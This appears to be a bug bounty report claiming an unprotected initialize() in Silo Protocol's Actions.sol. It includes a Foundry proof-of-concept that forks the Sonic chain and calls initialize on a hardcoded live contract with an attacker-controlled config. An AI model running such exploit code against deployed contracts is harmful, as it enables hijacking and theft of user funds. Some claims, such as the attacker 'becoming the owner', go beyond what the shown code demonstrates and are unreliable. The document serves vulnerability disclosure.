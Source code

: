 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53





**Summary:**

The Actions.sol contract acts as a middleware within the Silo Protocol. When a user interacts with core functions such as deposit or withdraw, the main protocol delegates responsibilities to this contract. This includes critical tasks such as:

Calling accrueInterest()

Managing reentrancy protection

Interacting with vaults that handle funds

Fetching shareToken and asset addresses

Managing the hookReceiver


However, the initialize() function in Actions.sol is unprotected. It is publicly callable and lacks any access control (e.g., onlyOwner or initializer modifiers). This allows any attacker to hijack the contract, configure it with a malicious SiloConfig, and gain full control over the logic execution of the entire protocol.

Furthermore, the contract appears to have never been initialized, which makes this attack feasible on mainnet.



```solidity
// Actions.sol
    /// @notice Initialize Silo
    /// @param _siloConfig Address of ISiloConfig with full configuration for this Silo
    /// @return hookReceiver Address of the hook receiver for the silo
@audit-bug--> // ⚠️ BUG: Missing initialize call 
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) {
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```







**Impact:**

- Attacker can fully hijack the Actions.sol contract by calling initialize() with malicious config.

- The attacker can point hookReceiver, shareToken, and other vault interactions to addresses under their control.

- This allows arbitrary logic injection into protocol flows, including vault draining and disabling of reentrancy protection.

- Once hijacked, the protocol team cannot reclaim the contract, leading to permanent loss of control and user funds.





**Recommendation:**

- Protect the initialize() function with an onlyOwner or initializer modifier.

- Ensure the contract is properly initialized during deployment and can never be re-initialized.

- Consider deploying an upgrade or mitigation if the contract is already vulnerable on mainnet.





**Proof Of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, shareToken and malicious vaults, finally the attacker became the owner of the Actions.sol contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISiloConfig {
    struct ConfigData {
        address hookReceiver;
        address silo;
    }

    function getConfig(address silo) external view returns (ConfigData memory);
}

interface IActions {
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver);
}

contract MaliciousSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0xdeadbeef),  // just test value
            silo: address(0x12345678)          // just test value
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04;

    MaliciousSiloConfig maliciousConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        // deploy mock silo config
        maliciousConfig = new MaliciousSiloConfig();
    }

    function test_Initialize() public {
        // try to initialize with attacker-controlled config
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                maliciousConfig
            )
        );

        require(success, string(data));
    }
}
```

